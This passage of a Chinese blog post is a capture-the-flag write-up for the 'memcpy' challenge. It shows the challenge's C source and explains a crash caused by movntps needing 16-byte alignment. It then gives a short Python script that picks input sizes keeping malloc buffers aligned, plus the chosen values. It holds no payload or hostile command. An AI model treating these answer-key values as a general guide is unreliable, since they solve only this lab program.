class="line"></span><br><span class="line"><span class="function"><span class="keyword">char</span>* <span class="title">fast_memcpy</span><span class="params">(<span class="keyword">char</span>* dest, <span class="keyword">const</span> <span class="keyword">char</span>* src, <span class="keyword">size_t</span> len)</span></span>&#123;</span><br><span class="line">        <span class="keyword">size_t</span> i;</span><br><span class="line">        <span class="comment">// 64-byte block fast copy 64字节的块快速拷贝</span></span><br><span class="line">        <span class="keyword">if</span>(len &gt;= <span class="number">64</span>)&#123;</span><br><span class="line">                i = len / <span class="number">64</span>;</span><br><span class="line">                len &amp;= (<span class="number">64</span><span class="number">-1</span>);</span><br><span class="line">                <span class="keyword">while</span>(i-- &gt; <span class="number">0</span>)&#123;</span><br><span class="line">                        __asm__ __volatile__ (   <span class="comment">//__volatile__表示不要优化代码，后面的指令保持原样</span></span><br><span class="line">                        <span class="string">"movdqa (%0), %%xmm0\n"</span>  <span class="comment">//将xxm寄存器中的双四字节移入128位内存位置  </span></span><br><span class="line">                        <span class="string">"movdqa 16(%0), %%xmm1\n"</span></span><br><span class="line">                        <span class="string">"movdqa 32(%0), %%xmm2\n"</span></span><br><span class="line">                        <span class="string">"movdqa 48(%0), %%xmm3\n"</span></span><br><span class="line">                        <span class="string">"movntps %%xmm0, (%1)\n"</span>  <span class="comment">//直接把（%1）中的值送入xmm，不经过cache,必须对齐16字节</span></span><br><span class="line">                        <span class="string">"movntps %%xmm1, 16(%1)\n"</span></span><br><span class="line">                        <span class="string">"movntps %%xmm2, 32(%1)\n"</span></span><br><span class="line">                        <span class="string">"movntps %%xmm3, 48(%1)\n"</span></span><br><span class="line">                        ::<span class="string">"r"</span>(src),<span class="string">"r"</span>(dest):<span class="string">"memory"</span>);  </span><br><span class="line">                        dest += <span class="number">64</span>;</span><br><span class="line">                        src += <span class="number">64</span>;</span><br><span class="line">                &#125;</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="comment">// byte-to-byte slow copy  逐字拷贝</span></span><br><span class="line">        <span class="keyword">if</span>(len) slow_memcpy(dest, src, len);</span><br><span class="line">        <span class="keyword">return</span> dest;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">void</span>)</span></span>&#123;</span><br><span class="line"></span><br><span class="line">        setvbuf(<span class="built_in">stdout</span>, <span class="number">0</span>, _IONBF, <span class="number">0</span>);</span><br><span class="line">        setvbuf(<span class="built_in">stdin</span>, <span class="number">0</span>, _IOLBF, <span class="number">0</span>);</span><br><span class="line"></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"Hey, I have a boring assignment for CS class.. :(\n"</span>);</span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"The assignment is simple.\n"</span>);</span><br><span class="line"></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"-----------------------------------------------------\n"</span>);</span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"- What is the best implementation of memcpy?        -\n"</span>);  <span class="comment">//memcpy的最佳实现是什么</span></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"- 1. implement your own slow/fast version of memcpy -\n"</span>);  <span class="comment">//实现你自己的缓慢/快速版本的memcpy</span></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"- 2. compare them with various size of data         -\n"</span>);  <span class="comment">//将它们与各种大小的数据进行比较</span></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"- 3. conclude your experiment and submit report     -\n"</span>);  <span class="comment">//结束实验并提交报告</span></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"-----------------------------------------------------\n"</span>);</span><br><span class="line"></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"This time, just help me out with my experiment and get flag\n"</span>);</span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"No fancy hacking, I promise :D\n"</span>);</span><br><span class="line"></span><br><span class="line">        <span class="keyword">unsigned</span> <span class="keyword">long</span> <span class="keyword">long</span> t1, t2;</span><br><span class="line">        <span class="keyword">int</span> e;</span><br><span class="line">        <span class="keyword">char</span>* src;</span><br><span class="line">        <span class="keyword">char</span>* dest;</span><br><span class="line">        <span class="keyword">unsigned</span> <span class="keyword">int</span> low, high;</span><br><span class="line">        <span class="keyword">unsigned</span> <span class="keyword">int</span> size;</span><br><span class="line">        <span class="comment">// allocate memory  分配内存</span></span><br><span class="line">        <span class="keyword">char</span>* cache1 = mmap(<span class="number">0</span>, <span class="number">0x4000</span>, <span class="number">7</span>, MAP_PRIVATE|MAP_ANONYMOUS, <span class="number">-1</span>, <span class="number">0</span>);</span><br><span class="line">        <span class="keyword">char</span>* cache2 = mmap(<span class="number">0</span>, <span class="number">0x4000</span>, <span class="number">7</span>, MAP_PRIVATE|MAP_ANONYMOUS, <span class="number">-1</span>, <span class="number">0</span>);</span><br><span class="line">        src = mmap(<span class="number">0</span>, <span class="number">0x2000</span>, <span class="number">7</span>, MAP_PRIVATE|MAP_ANONYMOUS, <span class="number">-1</span>, <span class="number">0</span>);</span><br><span class="line"></span><br><span class="line">        <span class="keyword">size_t</span> sizes[<span class="number">10</span>];</span><br><span class="line">        <span class="keyword">int</span> i=<span class="number">0</span>;</span><br><span class="line"></span><br><span class="line">        <span class="comment">// setup experiment parameters   设置实验参数</span></span><br><span class="line">        <span class="keyword">for</span>(e=<span class="number">4</span>; e&lt;<span class="number">14</span>; e++)&#123;    <span class="comment">// 2^13 = 8K</span></span><br><span class="line">                low = <span class="built_in">pow</span>(<span class="number">2</span>,e<span class="number">-1</span>);</span><br><span class="line">                high = <span class="built_in">pow</span>(<span class="number">2</span>,e);</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"specify the memcpy amount between %d ~ %d : "</span>, low, high);</span><br><span class="line">                <span class="built_in">scanf</span>(<span class="string">"%d"</span>, &amp;size);</span><br><span class="line">                <span class="keyword">if</span>( size &lt; low || size &gt; high )&#123;</span><br><span class="line">                        <span class="built_in">printf</span>(<span class="string">"don't mess with the experiment.\n"</span>);</span><br><span class="line">                        <span class="built_in">exit</span>(<span class="number">0</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                sizes[i++] = size;</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        sleep(<span class="number">1</span>);</span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"ok, lets run the experiment with your configuration\n"</span>);</span><br><span class="line">        sleep(<span class="number">1</span>);</span><br><span class="line"></span><br><span class="line">        <span class="comment">// run experiment</span></span><br><span class="line">        <span class="keyword">for</span>(i=<span class="number">0</span>; i&lt;<span class="number">10</span>; i++)&#123;</span><br><span class="line">                size = sizes[i];</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"experiment %d : memcpy with buffer size %d\n"</span>, i+<span class="number">1</span>, size);</span><br><span class="line">                dest = <span class="built_in">malloc</span>( size );</span><br><span class="line"></span><br><span class="line">                <span class="built_in">memcpy</span>(cache1, cache2, <span class="number">0x4000</span>);         <span class="comment">// to eliminate cache effect 删除缓存</span></span><br><span class="line">                t1 = rdtsc();</span><br><span class="line">                slow_memcpy(dest, src, size);           <span class="comment">// byte-to-byte memcpy </span></span><br><span class="line">                t2 = rdtsc();</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"ellapsed CPU cycles for slow_memcpy : %llu\n"</span>, t2-t1);</span><br><span class="line"></span><br><span class="line">                <span class="built_in">memcpy</span>(cache1, cache2, <span class="number">0x4000</span>);         <span class="comment">// to eliminate cache effect</span></span><br><span class="line">                t1 = rdtsc();</span><br><span class="line">                fast_memcpy(dest, src, size);           <span class="comment">// block-to-block memcpy</span></span><br><span class="line">                t2 = rdtsc();</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"ellapsed CPU cycles for fast_memcpy : %llu\n"</span>, t2-t1);</span><br><span class="line">                <span class="built_in">printf</span>(<span class="string">"\n"</span>);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"thanks for helping my experiment!\n"</span>);</span><br><span class="line">        <span class="built_in">printf</span>(<span class="string">"flag : ----- erased in this source code -----\n"</span>);</span><br><span class="line">        <span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>编译运行一下，到第5步的时候出现了段错误。<br><br> 出错的原因就是movntps指令要求必须16字节对齐。那先来了解一下什么是字节对齐吧：<br><a href="http://www.cnblogs.com/yin-jingyu/archive/2011/10/14/2211252.html" target="_blank" rel="noopener">http://www.cnblogs.com/yin-jingyu/archive/2011/10/14/2211252.html</a> </p>
<p></p>
<p>我们来改写一下程序，看一下每步的地址值：<br></p>
<p>可以看到它的地址值都是7位的，不是2的倍数，不满足16字节对齐，所以导致了段错误。<br></p>
<p> 那么怎么找到正确的数据呢？<br>我们知道malloc分配的堆块大小是以8字节对齐的，也就是mallco(a)分配的堆块大小为8*(int((a + 4)/8) + 1)；<br>写下面这个脚本来判断输入的数据是否是16字节对齐的：<br><figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">a = <span class="number">1</span></span><br><span class="line"><span class="keyword">while</span>(a != <span class="number">0</span>):</span><br><span class="line">    a = raw_input();</span><br><span class="line">    a = int(a);</span><br><span class="line">    <span class="keyword">if</span> ( ((a + <span class="number">4</span>)%<span class="number">16</span> &gt;= <span class="number">9</span>) <span class="keyword">or</span> ((a + <span class="number">4</span>)%<span class="number">16</span> == <span class="number">0</span>)):</span><br><span class="line">        <span class="keyword">print</span> a,<span class="string">" OK"</span></span><br><span class="line">    <span class="keyword">else</span>:</span><br><span class="line">        <span class="keyword">print</span> a,<span class="string">" NO"</span></span><br></pre></td></tr></table></figure></p>
<p>根据运行结果，取{9,25,56,120,133,266,522,1033,2055,5016}这几个数据。注意每一步的取值范围。<br></p>
<p>看到readme里的内容，连接到nc 0 9022就行了。<br></p>

            

        </div>
    </div>
    <div id="post-footer" class="post-footer main-content-wrap">
        
            <div class="post-footer-tags">
                <span class="text-color-light text-small">GETAGGT IN</span><br/>
                
    <a class="tag tag--primary tag--small t-link" href="/tags/pwn/">pwn</a> <a class="tag tag--primary tag--small t-link" href="/tags/writeup/">writeup</a>

            </div>
        
        
            <div class="post-actions-wrap">
    <nav>
        <ul class="post-actions post-action-nav">
            <li class="post-action">
                
                    
                    <a class="post-action-btn btn btn--default tooltip--top" href="/2018/02/14/shellcode编写/" data-tooltip="shellcode编写" aria-label="FRÜHER: shellcode编写">
                
                    <i class="fa fa-angle-left" aria-hidden="true"></i>
                    <span class="hide-xs hide-sm text-small icon-ml">FRÜHER</span>
                </a>
            </li>
            <li class="post-action">
                
                    
                    <a class="post-action-btn btn btn--default tooltip--top" href="/2017/10/12/jarvisoj/" data-tooltip="Jarvis OJ pwn write up" aria-label="NÄCHSTER: Jarvis OJ pwn write up">
                
                    <span class="hide-xs hide-sm text-small icon-mr">NÄCHSTER</span>
                    <i class="fa fa-angle-right" aria-hidden="true"></i>
                </a>
            </li>
        </ul>
    </nav>
    <ul class="post-actions post-action-share">
        <li class="post-action hide-lg hide-md hide-sm">
            <a class="post-action-btn btn btn--default btn-open-shareoptions" href="#btn-open-shareoptions" aria-label="Diesen Beitrag teilen">
                <i class="fa fa-share-alt" aria-hidden="true"></i>
            </a>
        </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://www.facebook.com/sharer/sharer.php?u=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Facebook">
                    <i class="fa fa-facebook-official" aria-hidden="true"></i>
                </a>
            </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://twitter.com/intent/tweet?text=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Twitter">
                    <i class="fa fa-twitter" aria-hidden="true"></i>
                </a>
            </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://plus.google.com/share?url=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Google Plus">
                    <i class="fa fa-google-plus" aria-hidden="true"></i>
                </a>
            </li>
        
        
            
        
        <li class="post-action">
            
                <a class="post-action-btn btn btn--default" href="#table-of-contents" aria-label="Inhaltsverzeichnis">
            
                <i class="fa fa-list" aria-hidden="true"></i>
            </a>
        </li>
    </ul>
</div>


        
        
            
        
    </div>
</article>


                <footer id="footer" class="main-content-wrap">
    <span class="copyrights">
        Copyrights &copy; 2018 Edvison. All Rights Reserved.
    </span>
</footer>

            </div>
            
                <div id="bottom-bar" class="post-bottom-bar" data-behavior="5">
                    <div class="post-actions-wrap">
    <nav>
        <ul class="post-actions post-action-nav">
            <li class="post-action">
                
                    
                    <a class="post-action-btn btn btn--default tooltip--top" href="/2018/02/14/shellcode编写/" data-tooltip="shellcode编写" aria-label="FRÜHER: shellcode编写">
                
                    <i class="fa fa-angle-left" aria-hidden="true"></i>
                    <span class="hide-xs hide-sm text-small icon-ml">FRÜHER</span>
                </a>
            </li>
            <li class="post-action">
                
                    
                    <a class="post-action-btn btn btn--default tooltip--top" href="/2017/10/12/jarvisoj/" data-tooltip="Jarvis OJ pwn write up" aria-label="NÄCHSTER: Jarvis OJ pwn write up">
                
                    <span class="hide-xs hide-sm text-small icon-mr">NÄCHSTER</span>
                    <i class="fa fa-angle-right" aria-hidden="true"></i>
                </a>
            </li>
        </ul>
    </nav>
    <ul class="post-actions post-action-share">
        <li class="post-action hide-lg hide-md hide-sm">
            <a class="post-action-btn btn btn--default btn-open-shareoptions" href="#btn-open-shareoptions" aria-label="Diesen Beitrag teilen">
                <i class="fa fa-share-alt" aria-hidden="true"></i>
            </a>
        </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://www.facebook.com/sharer/sharer.php?u=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Facebook">
                    <i class="fa fa-facebook-official" aria-hidden="true"></i>
                </a>
            </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://twitter.com/intent/tweet?text=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Twitter">
                    <i class="fa fa-twitter" aria-hidden="true"></i>
                </a>
            </li>
        
            
            
            <li class="post-action hide-xs">
                <a class="post-action-btn btn btn--default" target="new" href="https://plus.google.com/share?url=http://edvison.cn/2017/11/05/pwnable_1/" title="Teilen auf Google Plus">
                    <i class="fa fa-google-plus" aria-hidden="true"></i>
                </a>
            </li>
        
        
            
        
        <li class="post-action">
            
                <a class="post-action-btn btn btn--default" href="#table-of-contents" aria-label="Inhaltsverzeichnis">
            
                <i class="fa fa-list" aria-hidden="true"></i>
            </a>
        </li>
    </ul>
</div>


                </div>
                <div id="share-options-bar" class="share-options-bar" data-behavior="5">
    <i id="btn-close-shareoptions" class="fa fa-close"></i>
    <ul class="share-options">
        
            
            
            <li class="share-option">
                <a class="share-option-btn" target="new" href="https://www.facebook.com/sharer/sharer.php?u=http://edvison.cn/2017/11/05/pwnable_1/">
                    <i class="fa fa-facebook-official" aria-hidden="true"></i><span>Teilen auf Facebook</span>
                </a>
            </li>
        
            
            
            <li class="share-option">
                <a class="share-option-btn" target="new" href="https://twitter.com/intent/tweet?text=http://edvison.cn/2017/11/05/pwnable_1/">
                    <i class="fa fa-twitter" aria-hidden="true"></i><span>Teilen auf Twitter</span>
                </a>
            </li>
        
            
            
            <li class="share-option">
                <a class="share-option-btn" target="new" href="https://plus.google.com/share?url=http://edvison.cn/2017/11/05/pwnable_1/">
                    <i class="fa fa-google-plus" aria-hidden="true"></i><span>Teilen auf Google Plus</span>
                </a>
            </li>
        
    </ul>
</div>

            
        </div>
        


    
        
    

<div id="about">
    <div id="about-card">
        <div id="about-btn-close">
            <i class="fa fa-remove"></i>
        </div>
        
            
        
            <h4 id="about-card-name">Edvison</h4>
        
            <div id="about-card-bio"><p>Just the way you are</p>
</div>
        
        
            <div id="about-card-job">
                <i class="fa fa-briefcase"></i>
                <br/>
                <p>二进制、逆向</p>

            </div>
        
        
    </div>
</div>

        
        
<div id="cover" style="background-image:url('/assets/images/cover-v1.2.0.jpg');"></div>
        <!--SCRIPTS-->
<script src="/assets/js/jquery.js"></script>
<script src="/assets/js/jquery.fancybox.js"></script>
<script src="/assets/js/thumbs.js"></script>
<script src="/assets/js/tranquilpeak.js"></script>
<!--SCRIPTS END-->

    


    <script src="/live2dw/lib/L2Dwidget.min.js?0c58a1486de42ac6cc1c59c7d98ae887"></script><script>L2Dwidget.init({"pluginRootPath":"live2dw/","pluginJsPath":"lib/","pluginModelPath":"assets/","model":{"jsonPath":"/live2dw/assets/wanko.model.json"},"display":{"position":"right","width":100,"height":200},"mobile":{"show":true}});</script></body>
</html>
